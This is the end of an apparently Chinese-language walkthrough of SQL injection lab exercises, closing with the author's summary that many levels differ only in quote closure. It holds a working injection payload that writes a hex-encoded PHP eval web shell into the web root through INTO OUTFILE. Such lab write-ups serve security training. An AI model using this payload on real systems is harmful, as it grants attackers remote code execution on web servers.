?sort=1' into outfile "/var/www/html/1.php" lines terminated by 0x3c3f706870206576616c28245f504f53545b315d293b3f3e2020--+
```



## 总结

刷了一天半总算是给刷完了，学到了很多姿势，但是不得不说一种姿势出好几道题真的没必要，只不过是换了闭合方式，可能是因为比较基础吧，巩固基础来着s
